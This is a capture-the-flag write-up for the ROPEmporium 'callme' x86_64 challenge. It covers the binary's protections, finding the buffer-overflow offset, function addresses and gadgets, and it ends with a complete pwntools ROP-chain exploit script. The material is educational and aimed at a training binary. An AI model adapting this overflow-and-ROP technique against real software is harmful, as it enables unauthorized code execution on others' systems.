

Date: 21.02.2024

# **ROPEmporium - callme - x86_64**

## Gathering info


Bad news:
* NX is enabled, so it is not possible to execute own shellcode

Good news:
* There are no stack canaries and PIE is disabled

Binary is in x86_64 architecture.

## Running `callme`


Program is simple, it takes input from user, the image above shows that binary is vulnerable to buffer overflow. Since there is no possibility of executing own shellcode, ROP technique should be used. Let's take a look again at task description:

> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. For the x86_64 binary double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`


So in vulnerable binary there are 3 functions that are needed to be called in our ROP chain. 


## Building ROP chain

### Finding offset


`cyclic 100` is used to generate cyclic pattern which will be send into binary. After that step, we can calculate offset value by taking value stored in RBP.


Total offset value is 32+8=40. Here is initial exploit:

```python
from pwn import *

elf = ELF('callme')
p = process(elf.path)

offset = 40
overflow = b"A"*offset

payload = overflow
```

### Finding addresses of functions `callme_one`, etc.


* `callme_one = 0x400720` 
* `callme_two = 0x400740` 
* `callme_three = 0x4006f0` 


```python
from pwn import *

elf = ELF('callme')
p = process(elf.path)

offset = 40
overflow = b"A"*offset

callme1 = p64(0x400720)
callme2 = p64(0x400740)
callme3 = p64(0x4006f0)

payload = overflow
```

### Finding gadgets



Due to calling convention in that binary the most suitable gadget is at address: `0x000000000040093c`.


#### For ubuntu users

Due to `MOVAPS` issue in Ubuntu machines there is need to add another gadget `ret`.

```
ROPgadget --binary ./callme | grep ret
...
0x00000000004006be :  ret
...
```

### Final exploit

```python
from pwn import *

elf = ELF('callme')
p = process(elf.path)

overflow = b"A"*40
gadget = p64(0x40093c)
gadget2 = p64(0x00000000004006be)
callme1 = p64(0x400720)
callme2 = p64(0x400740)
callme3 = p64(0x4006f0)
deadbeef = p64(0xdeadbeefdeadbeef) # required by task args
cafebabe = p64(0xcafebabecafebabe)
doodfood = p64(0xd00df00dd00df00d)
args = deadbeef + cafebabe + doodfood

payload = overflow + gadget + args + gadget2 + callme1 # gadget2 is necessary for Ubuntu users
payload += gadget + args + callme2
payload += gadget + args + callme3

p.sendline(payload)
response = p.recvall()
print(response.decode())
```


